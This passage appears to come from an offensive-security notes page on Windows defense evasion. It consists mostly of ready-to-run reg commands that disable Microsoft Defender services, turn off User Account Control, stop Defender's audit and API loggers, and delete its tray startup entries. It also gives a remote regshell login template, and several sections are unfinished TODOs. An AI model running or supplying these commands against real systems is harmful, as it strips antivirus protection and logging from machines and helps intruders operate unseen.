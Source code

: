 `C:\> reg add "HKLM\System\CurrentControlSet\Services\WdNisDrv" /v "Start" /t REG_DWORD /d "4" /f`

`C:\> reg add "HKLM\System\CurrentControlSet\Services\WdNisSvc" /v "Start" /t REG_DWORD /d "4" /f`

`C:\> reg add "HKLM\System\CurrentControlSet\Services\WinDefend" /v "Start" /t REG_DWORD /d "4" /f`

`C:\> reg add "HKLM\System\CurrentControlSet\Services\SecurityHealthService" /v "Start" /t REG_DWORD /d "4" /f`

`C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f`

##### 1.3.1.2.2 - Regshell

TODO: Complete this

```
$ regshell -U <DOMAIN>/<username>%<password> -R <IP>

> predef HKEY_LOCAL_MACHINE
> cd Policies\Microsoft
```

#### 1.3.1.3 - Disable Logging

##### 1.3.1.3.1 - Command Prompt

`C:\> reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderApiLogger" /v "Start" /t REG_DWORD /d "0" /f`

`C:\> reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderAuditLogger" /v "Start" /t REG_DWORD /d "0" /f`

##### 1.3.1.3.2 - Regshell

TODO: Complete this

```
$ regshell -U <DOMAIN>/<username>%<password> -R <IP>

> predef HKEY_LOCAL_MACHINE
> cd Policies\Microsoft
```

#### 1.3.1.4 - Disable Systray Icon

##### 1.3.1.4.1 - Command Prompt

`C:\> reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run" /v "Windows Defender" /f`

`C:\> reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Windows Defender" /f`

`C:\> reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "WindowsDefender" /f`

##### 1.3.1.4.2 - Regshell

TODO: Complete this
